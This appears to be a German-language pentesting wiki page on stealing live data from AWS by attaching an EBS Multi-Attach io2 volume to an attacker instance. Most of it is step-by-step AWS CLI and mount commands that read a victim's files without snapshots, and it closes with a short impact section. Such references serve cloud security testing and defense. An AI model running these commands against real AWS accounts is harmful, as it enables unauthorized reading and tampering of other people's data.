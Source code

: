 # AWS - Live Data Theft via EBS Multi-Attach

{{#include ../../../../banners/hacktricks-training.md}}

## Zusammenfassung
EBS Multi-Attach missbrauchen, um von einem laufenden io1/io2-Datenvolume zu lesen, indem dasselbe Volume an eine vom Angreifer kontrollierte Instanz in derselben Availability Zone (AZ) angehängt wird. Das schreibgeschützte Mounten des geteilten Volumes ermöglicht sofortigen Zugriff auf in Benutzung befindliche Dateien, ohne Snapshots zu erstellen.

## Voraussetzungen
- Zielvolume: io1 oder io2, erstellt mit `--multi-attach-enabled` in derselben AZ wie die Angreifer-Instanz.
- Berechtigungen: `ec2:AttachVolume`, `ec2:DescribeVolumes`, `ec2:DescribeInstances` auf dem Zielvolume/den Ziel-Instanzen.
- Infrastruktur: Nitro-basierte Instance-Typen, die Multi-Attach unterstützen (C5/M5/R5-Familien usw.).

## Hinweise
- Schreibgeschützt mit `-o ro,noload` mounten, um Korruptionsrisiken zu verringern und Journal-Replays zu vermeiden.
- Auf Nitro-Instanzen exponiert das EBS NVMe-Gerät einen stabilen `/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_vol...` Pfad (Hilfe unten).

## Prepare a Multi-Attach io2 volume and attach to victim

Example (create in `us-east-1a` and attach to the victim):
```bash
AZ=us-east-1a
# Create io2 volume with Multi-Attach enabled
VOL_ID=$(aws ec2 create-volume \
--size 10 \
--volume-type io2 \
--iops 1000 \
--availability-zone $AZ \
--multi-attach-enabled \
--tag-specifications 'ResourceType=volume,Tags=[{Key=Name,Value=multi-shared}]' \
--query 'VolumeId' --output text)

# Attach to victim instance
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $VICTIM_INSTANCE --device /dev/sdf
```
Auf dem Opfer format/mount das neue Volume und schreibe sensible Daten (zur Veranschaulichung):
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkfs.ext4 -F "$DEV"
sudo mkdir -p /mnt/shared
sudo mount "$DEV" /mnt/shared
echo 'secret-token-ABC123' | sudo tee /mnt/shared/secret.txt
sudo sync
```
## Dasselbe Volume an die Angreifer-Instanz anhängen
```bash
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $ATTACKER_INSTANCE --device /dev/sdf
```
## Schreibgeschützt auf dem Angreifer einhängen und Daten lesen
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkdir -p /mnt/steal
sudo mount -o ro,noload "$DEV" /mnt/steal
sudo cat /mnt/steal/secret.txt
```
Erwartetes Ergebnis: Dieselbe `VOL_ID` zeigt mehrere `Attachments` (victim und attacker) und der attacker kann Dateien lesen, die vom victim geschrieben wurden, ohne einen Snapshot zu erstellen.
```bash
aws ec2 describe-volumes --volume-ids $VOL_ID \
--query 'Volumes[0].Attachments[*].{InstanceId:InstanceId,State:State,Device:Device}'
```
<details>
<summary>Hilfsfunktion: NVMe-Gerätepfad anhand der Volume ID finden</summary>

Auf Nitro-Instanzen verwenden Sie den stabilen by-id-Pfad, der die Volume ID einbettet (den Bindestrich nach `vol` entfernen):
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
ls -l /dev/disk/by-id/ | grep "$VOLNOHYP"
# -> nvme-Amazon_Elastic_Block_Store_volXXXXXXXX...
```
</details>

## Auswirkungen
- Sofortiger Lesezugriff auf Live-Daten auf dem Ziel-EBS-Volume, ohne snapshots zu erzeugen.
- Wenn es read-write gemountet ist, kann der attacker das victim filesystem manipulieren (Risiko einer Beschädigung).

{{#include ../../../../banners/hacktricks-training.md}}
